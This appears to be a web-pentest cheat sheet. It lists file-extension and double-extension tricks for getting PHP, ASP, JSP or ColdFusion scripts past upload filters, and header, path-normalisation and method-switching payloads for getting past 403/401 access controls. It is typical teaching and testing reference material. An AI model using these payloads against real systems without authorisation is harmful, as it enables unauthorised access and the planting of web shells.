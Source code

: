 ***

Tricks bypass
- Some regex might be bypassed with `%0a` -> `\n`
Blacklisting Bypass
- PHP 
```
.phtm
.phtml
.phps
.pht
.php[2-5]
.shtml
.phar
```
- ASP
```
.asp
.aspx
.cer
.asa
```
- jsp
```
.jsp
.jspx
.jsw
.jsv
.jspf
```
- ColdFusion
```
.cfm
.cfml
.cfc
.dbm
```
- Using random capitalization
```
.pHp
.pHP5
.PhAr
```

**Whitelisting bypass**
```
file.jpg.php
file.php.jpg
file.php.blah123jpg
file.php%20
file.php%0d%0a.jpg
file.php.....
file.php/
file.php.\
file.php#.png
file.
.html
```

---

**Tips on bypassing 403 and 401 errors**

Here's a list of tips on how to bypass 403 Forbidden and 401 Unauthorized errors:

1. **By adding headers:** X-Originating-IP, X-Remote-IP, X-Client-IP, X-Forwarded-For etc. Sometimes companies whitelist the IP for those who can access sensitive data. These header take IP address as a value and let you access the resource if the supplied IP matches with their whitelisted ones.
2. **With unicode chars:** Try inserting unicode characters to bypass the defenses. Try e.g. ½
3. **By overriding, overwriting URL with headers:** If GET /admin gives you 403 Forbidden, try to GET /accessible (any accessible endpoint) and add any of these HTTP headers:
	- X-Original-URL: /admin
	- X-Override-URL: /admin
	- X-Rewrite-URL: /admin
4. **Try different payloads:** if GET /admin gives you 403 Forbidden, try accessing:
	- /accessible/..;/admin
	- /.;/admin
	- /admin;/
	- /admin/~
	- /./admin/./
	- /admin?param
	- /%2e/admin
	- /admin#
5. **Method switching:** Change the method from GET to POST, and see if you get something
6. **Via IP, Vhost:** Access the site via its IP or Vhost to get the forbidden content.
7. **Fuzzing:** By brute forcing (fuzzing) files or directories further 